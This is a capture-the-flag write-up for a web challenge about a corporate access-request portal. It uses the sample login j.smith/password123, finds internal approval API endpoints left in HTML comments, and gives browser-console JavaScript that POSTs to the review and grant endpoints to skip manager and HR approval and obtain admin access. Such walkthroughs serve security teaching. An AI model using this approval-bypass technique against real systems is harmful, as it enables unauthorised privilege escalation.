


! Jordan Smith. Engineering. Two years in. Still getting routed through the helpdesk ticket queue for things a $12-an-hour contractor could approve in a Slack DM. The portal has a whole workflow, manager, HR, final click. Very official. Very locked. Your manager m.chen is listed by name and the approval buttons are right there, greyed out. Read the source. Think about what the server actually checks versus what the browser shows you. Login: **j.smith / password123** 

## [01] Finding the Admin Request API

Upon loading the challenge, we are met with a login panel. Remembering from the briefing, we are given a set of credentials, `j.smith:password123`.


We are given a prompt to ask why we are requesting admin access. We can fill the form out and submit it. Once it's submitted, we are given a Request ID, and we can also find some interesting buttons that are grayed out. 


Looking at the source code, we can find something very telling.

```html
        <div style="margin-top:1rem; display:flex; gap:0.75rem; flex-wrap:wrap;">
          <!--
            Manager review is handled via the workflow API.
            Endpoint: POST /api/access-request/review/:id
            HR approval is triggered automatically server-side after review.
            Endpoint: POST /api/access-request/approve/:id  (internal)
            Final grant: POST /api/access-request/grant/:id
          -->
          <button class="btn" disabled title="Awaiting your line manager">Manager Review</button>
          <button class="btn" disabled title="Processed automatically by HR">HR Approval (auto)</button>
        </div>
      </div>
```
It looks like the approval process was left behind. We can open the console in the developer tools and send the api requests.

```js
const base = `https://${location.host}/api/access-request/`;
const id = "93bdd119-6864-4171-a544-fe08f46b180e";

const review = await fetch(`${base}/review/${id}`, {
    method: "POST"
});

if (!review.ok) {
    throw new Error(`Review failed: ${review.status}`);
}

const grant = await fetch(`${base}/grant/${id}`, {
    method: "POST"
});

console.log("Grant response:", grant.status);
```
We get a 200 repsonse. Now we can refresh the page and we have admin access.

